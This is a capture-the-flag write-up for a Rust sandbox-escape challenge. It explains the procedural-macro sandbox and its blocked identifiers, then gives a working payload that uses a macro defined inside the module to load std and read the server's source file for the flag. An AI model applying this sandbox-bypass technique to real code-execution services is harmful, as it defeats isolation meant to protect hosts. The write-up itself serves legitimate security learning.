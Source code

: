 # Overview

A server written in rust, which creates and runs Services (a Service there is
a trait, a traits are similar to interfaces in other languages).  
There are two Services, one is implemented in `user_1` module which is
predefined and the other one (`user_0`) is supposed to be implemented by the
user.

A Python code wraps it all - receives the code of `user_0`, build the program
and executes it.

Pretty simple, but how's it related to the flag? It is actually placed as a
constant string in the predefined module:

```rust  
#![no_std]  
use proc_sandbox::sandbox;

#[sandbox]  
pub mod user {  
   static FLAG: &'static str = "CTF{fake flag}";  
   use prelude::{mem::ManuallyDrop, Service, Box, String};  
   pub struct State(ManuallyDrop<String>);  
   impl State {  
       pub fn new() -> Box<dyn Service> {  
           Box::new(State(ManuallyDrop::new(String::from(FLAG))))  
       }  
   }  
   impl Service for State {  
      fn handle(&mut self, _: &str) {}  
   }  
}  
```

I'm not very experienced in rust but I've seen some code and the use of
[ManuallyDrop](https://doc.rust-lang.org/std/mem/struct.ManuallyDrop.html) was
not familliar to me. As it wraps the flag, it is worth mentioning that the
object is a wrapper can be used to inhibit compiler from automatically calling
the destructor of the wrapped struct.  
So it means the flag stays in memory? Interesting

And there is a sandbox. Actually in my point of view there were 3 "layers" of
limitations, and the sandbox is one of them:

### Python validation  
The user's input is being validated before the program is run (but after
compiling). That's the function:

```python  
def check_user_input():  
   socket_print("Validating user input before compiling...")  
   result =
subprocess.run("/home/user/rustup/toolchains/nightly-2020-10-08-x86_64-unknown-
linux-gnu/bin/rustc user-0/src/lib.rs -Zast-json=yes",  
                           cwd="/home/user/sources", shell=True, timeout=150, capture_output=True)  
   try:  
       ast = json.loads(result.stdout)  
       if len(ast["module"]["items"]) != 5:  
           socket_print("Module escaping detected, aborting.")  
           sys.exit(1)

   except json.JSONDecodeError:  
       socket_print(  
           "Something went wrong during validation -- is your input malformed?")  
       sys.exit(1)

```

It tries to check module escaping using a feature of the rust compiler
(exporting the AST).

**What actually caught my mind is the old version of the toolchain - should I
exploit an old bug?**

### The sandbox

The sandbox is implemented as a [Procedural Macro](https://doc.rust-
lang.org/reference/procedural-macros.html) (more specific - attribute macro),
which allow running code that consumes and produces rust syntax.

The `Sandbox` goes over the user-modules AST and checks for blocked
operations:  
* The `unsafe` expression.  
* Linking to external symbol.  
* `extern` declaration.  
* Blocked idents (idents are keywords or illegal phrases): `env`, `file`, `include`, `include_bytes`,`include_str`, `option_env`, `std`

### Overriding `prelude`

In rust, [prelude](https://doc.rust-lang.org/std/prelude/index.html) is a list
of things that rust automatically imports to every program, particularly for
convenience.

It is possible to define your own prelude and that what happens in this
challenge, so it goes hand to hand with the sandbox.

The `Service` trait is also defined in the same file.

```rust  
pub use std::io::Read;  
pub use std::io::Result as IoResult;  
pub use std::vec::Vec;  
pub use std::println as log;  
pub use std::string::String;  
pub use std::str;  
pub use std::mem;  
pub use std::boxed::Box;

pub trait Service {  
   fn handle(&mut self, query: &str);  
}  
```

# My (unintended) way to the solution

There were some "hints" that led me to think I should get the flag by
exploiting a bug that existed in that old version of rust and it should likely
be related to memory issues - `DropManually` that keeps the flag in memory,
the old toolchain and the name of the challenge.

But I had another idea.

As mentioned before, the sandbox is implemented as a Procedural Macro, which
made me think - In what order the build-time code is run?  **What if I define
a macro inside the module and call it later?**

The answer is the macro defined inside the module actually processed later and
as a result can bypass the sandbox limitations :)

Now I need to get the flag and since I know the absolute path of the project
in the server (the path exists in their Python code), the easiest way for me
was just reading the source code file from the disk.  
In order to read from disk you need to use `std` library, and although the
sandbox is not an issue anymore, the library cannot be imported because of the
prelude overriding.

But as a result of defeating the sandbox, the predule is not an issue anymore
- I can use `extern crate`.  
`extern crate` declaration specifies a dependency on an external crate, [and
is likely no longer needed in most cases now](https://doc.rust-
lang.org/edition-guide/rust-2018/module-system/path-clarity.html) as `use` is
more convenient.

[It is possible to use `extern crate` to add symbols to the `extern
prelude`](https://doc.rust-lang.org/reference/names/preludes.html#extern-
prelude)

Now that no problems left to be solved, the payload:  
```rust  
   use prelude::{Service, Box, String, log};

   macro_rules! get_the_flag {  
       ($e:expr) => {  
           extern crate std;  
           use std::fs;  
           let all = fs::read_to_string("/home/user/sources/user-1/src/lib.rs").expect("whatever");  
           log!("{}",all);  
       };  
   }

   pub struct State;  
   impl State {  
       pub fn new() -> Box<dyn Service> {  
           get_the_flag!("");  
           Box::new(Self)  
       }  
   }

   impl Service for State {  
      fn handle(&mut self, _: &str) {  
      }  
   }  
```

And the flag - `CTF{s4ndb0x1n9_s0urc3_1s_h4rd_ev3n_1n_rus7}`

In fact it turned out the intended solution is actually as "hinted" , as seen
in [the original writeup](https://github.com/google/google-
ctf/tree/master/2021/quals/pwn-memsafety)  

Original writeup (https://github.com/OmerYe/ctf-
writeups/blob/master/2021/google/memsafety/writeup.md).Please, write just a link to original writeup here. (What? Everybody just
ignores that "warning")

Original writeup (http://r3ka.eu/2018/03/n1ctf-2018-memsafety-writeup/).